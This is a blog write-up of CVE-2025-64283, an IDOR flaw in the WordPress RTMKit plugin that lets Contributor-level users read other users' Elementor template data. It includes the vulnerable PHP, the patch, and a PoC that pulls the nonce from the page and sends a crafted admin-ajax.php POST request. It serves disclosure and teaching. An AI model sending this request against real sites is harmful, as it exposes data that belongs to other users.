


# CVE-2025-64283 Analysis & POC


<!--more-->

## CVE & Basic Info
An **Authorization Bypass** vulnerability through a **User-Controlled Key** in **Rometheme RTMKit (rometheme-for-elementor)** allows exploitation of **incorrectly configured access control** mechanisms.  
This vulnerability affects **RTMKit** from **n/a** through **version ≤ 1.6.7**.

* **CVE ID**: [CVE-2025-64283](https://www.cve.org/CVERecord?id=CVE-2025-64283)
* **Vulnerability Type**: Insecure Direct Object References (IDOR)
* **Affected Versions**: <= 1.6.7
* **Patched Versions**: 1.6.8
* **CVSS severity**: Low (5.4)
* **Required Privilege**: Contributor
* **Product**: [WordPress ARTMKit Plugin](https://wordpress.org/plugins/rometheme-for-elementor/)

## Requirements
* **Local WordPress & Debugging**
    * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
    * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version – ARTMKit**:
    * `1.6.7` – **vulnerable**
    * `1.6.8` – **patched**
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) or any diff tool.

## Analysis
The plugin registers the following action hook:

```php {title="template.php v1.6.7" data-open=true hl_lines=[]}
add_action('wp_ajax_get_template_content', [$this, 'get_template_content']);
```

In WordPress, the `wp_ajax_` prefix is used to handle AJAX requests sent to `/wp-admin/admin-ajax.php` from **authenticated users**. When a request includes the parameter `action=get_template_content`, WordPress invokes the corresponding `get_template_content` function to process and return data.

```php {title="template.php v1.6.7" data-open=true hl_lines=[]}
public function get_template_content()
{
    if (!isset($_POST['wpnonce']) ||  ! check_ajax_referer('rtm_template_nonce', 'wpnonce')) {
        wp_send_json_error('Access Denied');
        wp_die();
    }

    $id = absint($_POST['template']);

    $elementorData = get_post_meta($id, '_elementor_data', true);

    $data = ['content' => json_decode($elementorData)];

    wp_send_json_success($data);
}
```

The `get_template_content` function processes the AJAX request as follows:

1. Checks the existence of `wpnonce` and validates it using `check_ajax_referer` to ensure request legitimacy and CSRF protection.
> [!TIP]
> When searching for the keyword `rtm_template_nonce`
> 
> The nonce is generated using `wp_create_nonce('rtm_template_nonce')` and attached to the JavaScript object `rkit_libs` via `wp_localize_script` with the storage key `template_nonce`. The client uses this value and sends it back in the AJAX request as the `wpnonce` parameter for validation.
> When filtering requests in BurpSuite using the keyword `rkit_libs`, this value can be observed.
> 

2. Retrieves the `template` parameter from `POST` and casts it to an integer using `absint`.
3. Fetches the `_elementor_data` meta value associated with the post ID via `get_post_meta`.
4. Decodes the JSON data and wraps it in a response array.
5. Returns the data via a successful JSON response (`wp_send_json_success`).

> [!BUG]
> The vulnerability arises because `$id` is not properly access-controlled, allowing **Contributor+** users to retrieve arbitrary post data belonging to other users.

**Patch v1.6.8** introduces an additional user capability check using `current_user_can('manage_options')`:

```php
if (!current_user_can('manage_options')) {
    wp_send_json_error('Access Denied: Insufficient permissions');
    wp_die();
}
```

This ensures that only users with **Administrator** privileges can proceed. Unauthorized users receive an `Access Denied: Insufficient permissions` response.

## Flow

flowchart TD
A["Authenticated Contributor"]
--> B["Send POST request to admin-ajax.php"]
B --> C["action=get_template_content"]
C --> D["get_template_content() executed"]
D --> E["check_ajax_referer passed"]
E --> F["Control template ID parameter"]
F --> G["get_post_meta(target_id, _elementor_data)"]
G --> H["Return template content"]


## Proof of Concept (PoC)
1. Create a post using **Elementor** with a **Contributor+ user**
2. Capture the request using BurpSuite and extract the returned nonce value:

```html
<script id="rkit-library-script-js-extra">
    var rkit_libs = {"logo_url":"http://localhost/wp-content/plugins/rometheme-for-elementor//view/images/RTMKitNew.png","ajax_url":"http://localhost/wp-admin/admin-ajax.php","template_nonce":"nonce_value"};
    //# sourceURL=rkit-library-script-js-extra
</script>
```

3. Send a request with `template=id_of_other_post`

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
Cookie: contributor_cookie

action=get_template_content&wpnonce=bea52715a7&template=25
```

**Result:**



**Other AJAX actions affected by the same issue**:
* `wp_ajax_fetch_lib`
* `wp_ajax_fetch_envato_template`
* `wp_ajax_get_installed_template`
* `wp_ajax_get_installed_templates`
* `wp_ajax_template_category`

## Conclusion

CVE-2025-64283 stems from the plugin relying solely on **nonce validation** for AJAX request authentication without enforcing **role-based authorization checks**. This allows lower-privileged users (Contributor+) to control the `template` parameter and access `_elementor_data` of posts they do not own. Version 1.6.8 mitigates the issue by introducing a proper administrator-level capability check.

## Key Takeaways

* Nonces **do not replace** authorization controls.
* WordPress AJAX actions must **validate appropriate user capabilities**, not just authentication.
* User-controlled object identifiers (IDs) must be **strictly bound to access permissions**.
* IDOR vulnerabilities commonly arise from improperly enforced access control in AJAX logic.

## References
[IDOR](https://book.hacktricks.wiki/en/pentesting-web/idor.html)

[WordPress ARTMKit Plugin <= 1.6.7 is vulnerable to Insecure Direct Object References (IDOR)](https://patchstack.com/database/wordpress/plugin/rometheme-for-elementor/vulnerability/wordpress-rtmkit-plugin-1-6-7-insecure-direct-object-references-idor-vulnerability)


---

> Author: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/posts/2025-12-24-cve-2025-64283/  

